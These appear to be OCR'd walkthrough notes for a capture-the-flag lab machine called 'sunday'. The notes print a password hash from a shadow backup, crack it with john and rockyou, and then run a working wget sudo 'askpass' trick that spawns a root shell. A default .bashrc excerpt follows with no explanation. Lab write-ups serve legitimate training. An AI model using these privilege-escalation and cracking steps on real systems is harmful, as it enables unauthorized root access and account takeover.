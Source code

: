 
# ssh
[sunny@sunday:~$] sudo -l
```
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
```
[sunny@sunday:/backup$] cat shadow.backup
	sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
└─# 
```
john hash -wordlist=/usr/share/wordlists/rockyou.txt
```
	cooldude!        (sammy) 

[sammy@sunday:~$] sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

sammy@sunday:~$
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

```
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar

# make less more friendly for non-text input files, see lesspipe(1)
#[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi
```